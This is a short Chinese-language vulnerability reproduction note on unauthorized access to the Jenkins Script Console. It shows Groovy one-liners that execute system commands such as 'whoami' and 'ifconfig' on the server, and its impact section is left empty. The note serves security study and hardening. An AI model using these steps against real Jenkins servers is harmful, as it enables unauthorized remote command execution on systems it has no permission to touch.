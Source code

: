 Jenkins功能未授权访问导致的远程命令执行漏洞
===========================================

一、漏洞简介
------------

Jenkins管理登陆之后，后台"系统管理"功能，有个"脚本命令行的"功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

二、漏洞影响
------------

三、复现过程
------------

找到"系统管理"------"脚本命令行"。

![](./.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId24.png)

![](./.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId25.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用'println'命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

    println(Jenkins.instance.pluginManager.plugins)

在脚本命令行中输入下面的语句，即可执行相应的命令：

    println "whoami".execute().text

![](./.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId26.png)

    println "ifconfig".execute().text

image
